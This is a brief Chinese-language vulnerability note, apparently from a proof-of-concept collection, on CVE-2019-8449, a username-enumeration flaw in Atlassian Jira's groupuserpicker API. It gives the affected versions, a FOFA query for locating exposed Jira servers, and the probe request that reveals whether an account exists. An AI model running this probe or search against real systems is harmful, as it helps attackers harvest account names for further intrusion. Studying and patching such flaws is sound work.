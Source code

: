# Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](./images/202205241426482.png)

当用户不存在时

![](./images/202205241427885.png)